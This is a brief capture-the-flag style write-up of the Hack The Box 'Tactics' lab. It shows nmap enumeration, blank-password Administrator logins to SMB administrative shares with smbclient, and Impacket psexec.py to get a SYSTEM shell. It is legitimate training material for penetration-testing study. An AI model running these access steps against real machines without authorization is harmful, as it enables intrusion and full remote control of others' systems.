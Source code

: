 ## Lab Title: Tactics
- Date: 2025-08-06
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 1

### 1. Scenario Summary
- SMB Connection >> Windows Administrative Shares >> Impacket >> `psexec.py`

### 2. Findings
- Nmap                  >> Enumeration
    - `-Pn` >> disable Host Discovery (which ICMP packets are not sent)
    - `nmap $ip -Pn --top-ports 10000 -T5`
        ```res
            135/tcp open  msrpc
            139/tcp open  netbios-ssn
            445/tcp open  microsoft-ds
        ```
    
- SMB                   >> ftp-like client to access SMB/CIFS resources 
    - `smbclient -L $ip -U Administrator` >> to list available shares
    - In Windows, `Administrator` is highest-privileged >> option to check with `blank password`
    - Available Shares: `ADMIN$, C$, IPC$`
    - `C$` >> administrative share >> system files
    - `smbclient \\\\$ip\\C$ -U Administrator` >> with blank password log in
        - Go to `dir \Users\Administrator\Desktop` & do `get flag.txt`
        - Voila, ca y est, c'est fini! 

- Impacket >> `psexec.py` >> also an option to connect to via SMB `psexec.py administrator@$ip`
    - This connection is possible since we have `ADMIN$` >> and `PsExec` is remote-control tool for Windows Admins
    - We are now on the same page with them
    - After this, we get an interactive shell with `NT Authority/System` highest-privileges

### 3. Idea
- SMB Connection >> Windows Administrative Shares >> Impacket >> `psexec.py`
